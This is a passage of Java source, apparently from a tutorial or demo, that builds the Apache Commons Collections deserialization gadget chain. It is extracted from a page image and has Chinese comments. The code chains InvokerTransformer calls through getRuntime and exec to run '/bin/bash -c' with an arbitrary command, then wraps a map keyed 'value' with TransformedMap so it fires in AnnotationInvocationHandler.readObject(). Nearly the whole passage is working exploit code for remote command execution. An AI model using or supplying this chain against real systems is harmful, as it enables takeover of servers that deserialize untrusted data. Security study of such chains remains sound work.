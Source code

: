```java
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer         tchain      = new ChainedTransformer( tarray );
        Map                 normalMap   = new HashMap();
        /*
         * 与TransformedMapExec.java所演示的不同，此处key有特殊要求，必须
         * 是"value"这个字符串，否则将来执行AnnotationInvocationHandler.readObject()
         * 时流程中不会出现setValue()，这与构造函数使用Retention做第一形参
         * 强相关。
         */
        normalMap.put( "value", "anything" );
        Map                 transformedMap
                                        = TransformedMap.decorate( normalMap, null, tchain );
        /*
         * import sun.reflect.annotation.AnnotationInvocationHandler;
         *
         * AnnotationInvocationHandler不是public的，不能直接import
         */
```